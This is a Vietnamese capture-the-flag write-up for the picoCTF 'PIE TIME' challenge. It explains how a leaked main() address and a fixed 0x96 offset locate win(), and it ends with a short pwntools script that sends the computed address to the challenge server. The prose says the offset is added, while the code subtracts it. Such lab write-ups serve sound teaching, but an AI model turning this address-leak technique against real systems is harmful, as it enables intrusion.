




# PIE TIME
Challenge cung cấp file elf cùng với mã nguồn. Mục tiêu là xâm nhập vào hàm `win()` để in ra flag.

`file` check:

<br>
`checksec`:

<br>
Khi chạy chương trình, ta sẽ được cung cấp địa chỉ của hàm `main()`. Sau đó ta sẽ được yêu cầu nhập vào một xâu hex, ta sẽ được nhảy tới địa chỉ mà ta vừa nhập vào. Như vậy, mục tiêu là bypass cơ chế `PIE` để truy cập vào hàm `win()`, từ đó lấy được thông tin `flag` <br>
`info functions`:

Dùng `gdb` để xem địa chỉ tương đối của các hàm, ta dễ dàng tính ra offset giữa hàm `main()` và `win()` bằng `0x96`. <br>
Tới giờ thì mọi việc rất đơn giản, chỉ cần lấy địa chỉ hàm `main()` đã được cấp sẵn, sau đó cộng với `offset` là ra được địa chỉ hàm `win()`. Nhập địa chỉ này vào và ta sẽ có được flag. <br>
Ở đây tôi đã viết script để tự động hoá quá trình này:

```python
from pwn import *

host = "rescued-float.picoctf.net"
port = 52331

# p = process("./vuln")
p = remote(host, port)

offset = 0x96

p.recvuntil(b'Address of main: ', drop=True)
main_addr = p.recvuntil(b'\n', drop=True)
win_addr = int(main_addr.decode(), 16) - offset
print(main_addr)
print(hex(win_addr))

payload= hex(win_addr)

p.sendline(payload)
```
